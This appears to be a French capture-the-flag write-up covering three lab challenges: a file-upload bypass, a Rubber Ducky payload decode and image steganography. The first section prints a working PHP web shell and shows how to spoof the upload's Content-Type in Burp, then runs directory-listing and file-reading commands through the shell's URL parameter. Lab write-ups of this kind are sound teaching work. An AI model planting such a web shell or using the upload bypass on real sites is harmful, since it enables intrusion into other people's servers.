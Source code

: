 # Secu
## 1 . Upload_medium
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, nous avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




### 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


* 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.